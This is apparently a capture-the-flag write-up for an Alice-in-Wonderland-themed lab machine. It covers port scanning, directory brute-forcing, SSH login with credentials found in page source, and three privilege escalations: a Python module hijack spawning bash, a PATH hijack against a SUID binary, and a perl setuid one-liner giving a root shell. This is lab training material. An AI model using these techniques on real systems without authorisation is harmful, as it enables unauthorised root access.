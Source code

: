 # namp

```bash 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-18 15:45 IST
Nmap scan report for 10.10.234.190
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

There are 2 ports open `22 ssh` and `80 http `

**Port 80**

![image-20220718155344767](assets/image-20220718155344767.png)

Nothing interesting here.

## gobuster

Starting gobuster `/r` directory was found which was interesting. Running gobuster again with `ip/r` the new directory was found `/a` running it again and again found the full path `ip/r/a/b/b/i/t` and when looking at `/t` page there was nothing interesting but when looking in the source page the alice credential were found.

![image-20220718165600935](assets/image-20220718165600935.png)

Using these credential to login ssh and it worked 

![image-20220718165815887](assets/image-20220718165815887.png)

Running `sudo -l` 

![image-20220718170618106](assets/image-20220718170618106.png)

we can use **Python Library Hijacking**. The reason being when we execute a Python file, the modules imported inside that Python  file are being check inside the current working directory first. If  those modules does not exist under the current working directory, Python looks for its own modules. 

With this technique, we can manipulate the module named **random** by creating the file called `random.py` in the same directory.

```py
import os
os.system ("/bin/bash")
```

Then run the command `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

![image-20220718172801254](assets/image-20220718172801254.png)

The file named **teaParty**, is a SUID binary which is owned by root

![image-20220718173002470](assets/image-20220718173002470.png)

when running the program it gives `Segmentation fault (core dumped)`

![image-20220718173152118](assets/image-20220718173152118.png)

we can understand from here is that there is a variable in the file that pulls the current date

So we can manipulate date path by creating a file called `date`

```bash
#!/bin/bash
/bin/bash -p
```

changing it permission `chmod +x date`. Now to export the path `export PATH= /home/rabbit:$PATH`

![image-20220718180356405](assets/image-20220718180356405.png)

we get access to `hatter` looking in his directory found password.txt. Found password for hatter.

![image-20220718180454321](assets/image-20220718180454321.png)

Now login ssh as hatter and running `sudo -l` . 

![image-20220718182417654](assets/image-20220718182417654.png)

uploading and running  linPEAS we find that perl is setuid.

![image-20220718183508805](assets/image-20220718183508805.png)

To find who can run the perl with `ls -l /usr/bin/perl` 

![image-20220718183746157](assets/image-20220718183746157.png)

so the root and hatter group can run the file.

Looking in  [gtfobins](https://gtfobins.github.io/gtfobins/perl/#sudo) for perl  Capabilities

![image-20220718184047985](assets/image-20220718184047985.png)

running `/usr/bin/perl  -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

![image-20220718184325244](assets/image-20220718184325244.png)

Found all the flags so the root flag is in user and user flag is in root.
